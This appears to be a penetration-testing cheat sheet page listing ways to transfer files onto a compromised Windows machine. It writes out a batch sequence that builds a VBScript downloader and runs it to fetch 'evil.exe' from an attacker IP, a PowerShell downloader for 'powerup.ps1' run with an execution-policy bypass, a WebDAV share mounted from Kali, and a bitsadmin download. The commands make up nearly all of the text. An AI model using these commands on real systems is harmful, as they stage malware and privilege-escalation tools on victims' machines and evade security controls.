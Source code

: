 echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

cscript wget.vbs http://10.11.0.102/evil.exe test.txt

Powershell

echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.102/powerup.ps1" >>wget.ps1
echo $file = "powerup.ps1" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

Webdav
On kali linux install wsgidav and cheroot

pip install wsgidav cheroot

Start the wsgidav on a restricted folder:

mkdir /tmp/webdav_folder
wsgidav --host=0.0.0.0 --port=80 --root=/tmp/webdav_folder

On Windows mount this folder using net use:

net use * http://YOUR_IP_ADDRESS/

Reference: https://github.com/mar10/wsgidav
BitsAdmin

bitsadmin /transfer n http://domain/file c:%homepath%file
